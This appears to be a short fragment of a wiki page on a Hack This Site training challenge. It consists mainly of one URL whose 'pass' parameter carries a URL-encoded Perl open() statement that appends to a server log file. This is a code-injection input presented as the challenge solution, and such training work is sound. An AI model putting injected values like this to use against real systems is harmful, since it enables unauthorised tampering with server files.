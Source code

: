 <http://www.hackthissite.org/missions/extbasic/template.php?lvl=9&pass=open(STARTREKLOG%2C>+%27%3E%3E%2Fvar%2Flog%2Fstartrek%27)%3B

[Category:Hack This Site](Category:Hack This Site "wikilink")
